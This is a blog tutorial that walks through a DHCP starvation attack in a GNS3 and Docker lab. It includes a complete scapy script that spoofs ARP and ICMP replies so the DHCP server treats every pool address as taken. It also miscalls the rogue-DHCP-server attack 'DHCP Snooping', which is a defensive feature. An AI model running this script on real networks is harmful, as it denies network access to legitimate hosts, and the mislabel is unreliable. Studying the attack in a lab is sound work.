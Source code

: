 ```yaml
---
layout: post
title:  "DHCP starvation attack without making any DHCP requests"
date:   2020-08-20 00:00:00 -0400
tags: [advanced, application, cybersecurity, networking, dhcp]
excerpt: Most defense systems filter out repeated DHCP requests. What if you could perform DHCP starvation without sending a DCHP request?
---
```


DHCP, Dynamic host configuration protocol, is a network protocol that offers an IP address and other required details that include gateway IP, DNS IP to a host that enters a network. The DHCP protocol as defined in [RFC2131](https://tools.ietf.org/html/rfc2131) involves 4 transactions back and forth between the client and server, namely:

* DHCP Discover - broadcast from the client
* DHCP Offer - broadcast from the server
* DHCP Request - unicast from client
* DHCP ACK - unicast from server

[Wikipedia explains the DHCP protocol amazingly!](https://en.wikipedia.org/wiki/Dynamic_Host_Configuration_Protocol)

## DHCP Attacks

Similar to the ARP protocol, due to its inability to authenticate users who enter the network, there have been multiple types of attacks on the protocol. Here are some of the well-known DHCP attacks:

* **DHCP Snooping**: In this attack, a malicious client acts as a DHCP server and services clients as they enter the network. The malicious client could send custom gateway and DNS server IPs to establish itself as a man-in-the-middle and perform DNS poisoning.
* **DHCP Starvation**: In this attack, a malicious client sends multiple DHCP requests and holds all the IP address present in the DHCP pool, thereby not allowing any new host to join the network. Denial of Service.

## DHCP starvation - Protocol dissection

The following image shows a screenshot of the packet capture during a DHCP transaction.

![Packet capture of DHCP transactions](/assets/img/dhcp-starvation/dhcp.png)
<br/><small style="color: gray">Packet capture of DHCP transactions</small><br/>

### What is ARP doing here?

The DHCP server broadcasts an ARP request followed by an ICMP request to ensure that the IP address that it is going to DHCP Offer is indeed available. Eureka?

Why does one need to make a DHCP request to starve the DHCP pool? Most of the defensive systems look for repeated DHCP requests from the same MAC address. What if I replied to DHCP's ARP request and made DHCP believe that the IP address is already in use?

Thus, in this article let's see how one can carry out ARP spoofing to impersonate a client that does not exist to make the DHCP server believe that the IP address that is picked from the pool to make DHCP Offer is already held by another client.

## The Experiment

In this experiment, let us use [GNS3](https://www.gns3.com/), a network simulation tool, and [Docker](https://www.docker.com/) containers as a DHCP server, a malicious client, and a benign client.

### DHCP Server

Let us create a DHCP server from scratch. Login to the GNS3 VM (this is where containers spin up). ISC DHCP server software is used to configure and run a DHCP server in ubuntu container [[Reference](https://www.tecmint.com/install-dhcp-server-in-ubuntu-debian/)].

* Create a Dockerfile with the following contents:

```dockerfile
FROM ubuntu
RUN apt-get update && apt-get install -y vim net-tools isc-dhcp-server
```

* Build the docker image by running `docker build -t dhcp-server .`
* Then, import the built docker image as a GNS3 appliance. [how](https://docs.gns3.com/docs/emulators/docker-support-in-gns3/)?
* Drag in the created appliance into the GNS3 workspace.
* Start the server by right-clicking and selecting "start". Double-click the node to get a console.
* Navigate to `/etc/dhcp` and append the following content to the `dhcpd.conf` file.

```
subnet 192.168.1.0 netmask 255.255.255.0 {
    range 192.168.1.150 192.168.1.160;
    option routers 192.168.1.1;
    option domain-name-servers 192.168.1.1;
    option domain-name "example.org";
}
```

* Create an empty file, for the DHCP server to hold the leased IP addresses, by running the command:

```bash
touch /var/lib/dhcp/dhcpd.lease
```

* Further, assign an IP address to the DHCP server by running the following command:

```bash
ifconfig eth0 192.168.1.1/24
```

* Finally, startup the DHCP server by running the command `dhcpd`

### Malicious Client and Benign Client

The malicious client is a Linux machine with [scapy](https://scapy.net/) installed, [`ehlers/scapy`](https://hub.docker.com/r/ehlers/scapy). Import this docker image to GNS3 as an appliance too, and drag in an instance of this into the workspace. Right-click on the malicious client instance on the workspace and `edit config` to uncomment the lines under DHCP config. This configures the instance to obtain an IP address from the DHCP server.

![Malicious client configuration](/assets/img/dhcp-starvation/mal-client.png)

Before we start up the malicious client, drag in a GNS3 default switch to the workspace. Then, connect the malicious client and the DHCP server to the switch. Drag in another instance of `ehlers/scapy` which plays the role of a benign client. Edit the configuration to make it look similar to the malicious client. After the setup, the network looks similar to the following image:

![Network Topology](/assets/img/dhcp-starvation/net-topo.png)

It's time!

Right-click on the link between the DHCP server and the switch to begin packet capture. Then, startup the malicious client.

Observe that the DHCP transactions happen and the malicious client successfully gets an IP address.

## Attack

Get a console by double-clicking on the malicious client and create a `arp_spoof.py` python file with the following content.

```python
import sys

from threading import Thread
from scapy.all import *

INTERFACE = "eth0"
MY_MAC_ADDRESS = get_if_hwaddr(INTERFACE)
MY_IP_ADDRESS = get_if_addr(INTERFACE)

'''
Approach 2: Using AnsweringMachine
$ python3 arp_spoof.py
'''

class ARPSpoofer(AnsweringMachine):
    def is_request(self, request):
        return request.haslayer('ARP') and request[ARP].op == 1 and request[ARP].pdst != MY_IP_ADDRESS
    
    def make_reply(self, request):
        response = Ether()/ARP()

        response[Ether].dst = request[Ether].src
        response[Ether].src = MY_MAC_ADDRESS

        response[ARP].op = 2
        response[ARP].hwsrc = MY_MAC_ADDRESS
        response[ARP].hwdst = request[ARP].hwsrc
        response[ARP].psrc = request[ARP].pdst
        response[ARP].pdst = request[ARP].psrc

        return response[ARP]

class PingResponder(AnsweringMachine):
    def is_request(self, request):
        return request.haslayer('ICMP') and request[ICMP].type == 8 and request[IP].dst != MY_IP_ADDRESS
    
    def make_reply(self, request):
        response = Ether()/IP()/ICMP()/""

        response[Ether].dst = request[Ether].src
        response[Ether].src = MY_MAC_ADDRESS

        response[IP].src = request[IP].dst
        response[IP].dst = request[IP].src

        response[ICMP].type = 0
        response[ICMP].id = request[ICMP].id
        response[ICMP].seq = request[ICMP].seq

        response[Raw].load = request[Raw].load

        return response[IP]

arp_spoofer = Thread(target=ARPSpoofer())
arp_spoofer.start()

ping_responder = Thread(target=PingResponder())
ping_responder.start()

arp_spoofer.join()
ping_responder.join()
```

The code performs ARP spoofing and is explained in [one of my older articles](/2020/08/02/arp-spoofing-using-scapy.html) in detail. In brief, each thread listens to a specific type of request i.e. ARP request and ICMP request and responds to them accordingly. As the ARP requests are replied by the malicious node, the switch believes that the MAC address associated with the IP address in question (ARP protocol) is that of the malicious node's MAC address. That is how ARP spoofing is achieved.

Run the python code by hitting the following command:

```bash
python arp_spoof.py
```

Now, start up the benign client and observe!

### Observation

Double click on the benign client to get a console. Run, `ifconfig` and observe that the benign client hasn't received an IP address yet!

### Why?

Observe the running packet capture.

![DHCP starvation in action](/assets/img/dhcp-starvation/dhcp-starvation.png)

The benign client continuously makes DHCP Discover, while the DHCP server is busy crafting the DHCP Offer. The DHCP server is not able to find an available IP address in it's DHCP pool. It finds an IP address from the DHCP pool, checks if it already taken by another host by making an ARP request followed by an ICMP request, and that is where the malicious client jumps in to respond to those messages. Thus, the DHCP server concludes that the IP address is already taken and skips to the following available IP address in the pool. The process repeats infinitely, and the benign client stays without an IP address. Hence, a DHCP starvation attack was carried out!

> I have them all, but I can't use any! - DHCP Server

